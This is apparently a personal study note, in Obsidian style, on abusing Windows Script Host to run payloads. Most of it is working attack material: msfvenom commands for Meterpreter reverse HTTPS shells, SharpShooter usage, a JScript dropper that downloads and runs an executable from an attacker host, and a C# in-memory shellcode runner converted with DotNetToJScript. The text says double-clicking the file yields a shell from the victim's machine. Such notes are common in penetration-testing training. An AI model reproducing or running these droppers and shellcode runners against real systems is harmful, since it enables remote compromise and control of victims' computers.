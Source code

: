 ```yaml
---
creation date: December 21st 2022
last modified date: December 21st 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Windows Script Host]]  
___

## Description:  
Look for default apps in windows settings, if the default application for .js files is Windows-Based Script host (should be by default), then our code should run automatically after a double-click.

### SharpShooter (automated way)

 A payload generation tool called [SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) has been created to assist with using DotNetToJscript to weaponize C# compiled assemblies in other file formats (like Jscript, VBScript, and even Microsoft Office macros).
```
 kali@kali:~$ cd /opt/
kali@kali:/opt$ sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git
Cloning into 'SharpShooter'...
kali@kali:/opt$ cd SharpShooter/
kali@kali:/opt/SharpShooter$ sudo pip install -r requirements.txt
```
use msfvenom to generate our Meterpreter reverse stager and write the raw output format to a file.
```
kali@kali:/opt/SharpShooter$ sudo msfvenom -p windows/x64/meterpreter/reverse_https 
LHOST=192.168.119.120 LPORT=443 -f raw -o /var/www/html/shell.txt
```
Now use Sharp Shooter to generate our payload:
```
kali@kali:/opt/SharpShooter$ sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```



### Jscript (Manual and not in memory)
use msfvenom to generate a 64-bit Meterpreter reverse HTTPS executable named met.exe:
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o met.exe
```
Now create the dropper code (save as a .js):
```
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{ 
	var Stream = WScript.CreateObject('ADODB.Stream');

	Stream.Open();
	Stream.Type = 1; // adTypeBinary
	Stream.Write(Object.ResponseBody);
	Stream.Position = 0;

	Stream.SaveToFile("met.exe", 2);
	Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```
After saving this code as a .js file, all we need to do is double-click it to get a 64-bit shell from the victim’s machine to our awaiting multi/handler listener.

### Using Jscript and C sharp (manual and in memory)
To run our payload completely from memory

Download [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and open it in visual studio
open TestClass.cs under the ExampleAssembly project. We’ll compile this as a .dll assembly, which we’ll execute in Jscript.
```
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;
[ComVisible(true)]
public class TestClass
{
	public TestClass()
	 {
		 MessageBox.Show("Test", "Test", MessageBoxButtons.OK, 
		MessageBoxIcon.Exclamation);
	 }
	 public void RunProcess(string path)
	 {
	 Process.Start(path);
	 }
}
```
Jscript will eventually execute the content of the TestClass method, which is inside the TestClass class (`MessageBox.Show`).
To test this solution, switch from debug to release mode and compile the entire solution (Build solutions). Place NDesk.Options.dll and ExampleAssembly.dll next to DotNetToJscript.exe and run the following command to create your .js file:
```
C:\Tools> DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```
Double click the .js file to run it, you should receive a popup that says "test".

We now need to get this project working with our shellcode.

Generate a 64-bit Meterpreter staged payload in csharp format and set up our multi/handler with the same payload.
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f csharp
```

We must modify the ExampleAssembly project in DotNetToJscript to execute the shellcode runner. Add the needed namespaces at the beginning of the project with the "using" keyword.

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
[ComVisible(true)]
public class TestClass
{
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
 uint flAllocationType, uint flProtect);
 [DllImport("kernel32.dll")]
 static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
 IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr 
lpThreadId);
 [DllImport("kernel32.dll")]
 static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

public TestClass()
{
 byte[] buf = new byte[626] {
 0xfc,0x48,0x83,0xe4,0xf0,0xe8...
 int size = buf.Length;
 IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
 Marshal.Copy(buf, 0, addr, size);
 IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, 
IntPtr.Zero);
 WaitForSingleObject(hThread, 0xFFFFFFFF);
}
	 public void RunProcess(string path)
	 {
	 Process.Start(path);
	 }
}
```
Before compiling this project, we must set the CPU architecture to x64 since we are using 64-bit shellcode. This is done through the CPU drop down menu, where we open the Configuration Manager. In the Configuration Manager, we choose <New…> from the Platform drop down menu and accept the new platform as x64.

Place NDesk.Options.dll and ExampleAssembly.dll next to DotNetToJscript.exe and run the following command to create your .js file:
```
C:\Tools> DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```
With our multi/handler set up, we can double-click the Jscript file. After a brief pause, we should receive the staged reverse Meterpreter shell.



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 21st 2022 (05:46 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
